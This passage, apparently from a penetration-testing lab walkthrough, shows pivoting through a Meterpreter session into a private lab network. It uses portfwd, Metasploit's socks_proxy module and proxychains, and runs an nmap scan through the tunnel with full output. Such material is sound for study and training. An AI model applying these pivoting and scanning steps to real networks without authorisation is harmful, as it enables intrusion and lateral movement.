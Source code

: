 ```
    -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r <opt>  Forward: remote host to connect to.
```

now lets forward to 192.168.3.129

```
meterpreter > portfwd add -l 4444 -p 80 -r 192.168.3.129
[*] Local TCP relay created: :4444 <-> 192.168.3.129:80
```

now go to browser  and open 127.0.0.1:4444
you can see webpage of 192.168.3.129

now its like one:one port

lets use socks module in metasploit
make sure route is added else this will not work 

```
use auxiliary/server/socks_proxy 
```

now you can change SRVPORT 
```
run
```
now socks server is up 

edit /etc/proxychains4.conf
```
socks5  127.0.0.1  1080
```
now do proxychains nmap scan

```
$ proxychains nmap -p80 -Pn -sV  192.168.3.129
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 00:38 EDT
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.3.129:80  ...  OK
Nmap scan report for 192.168.3.129
Host is up (0.0099s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 (DAV/2)
```


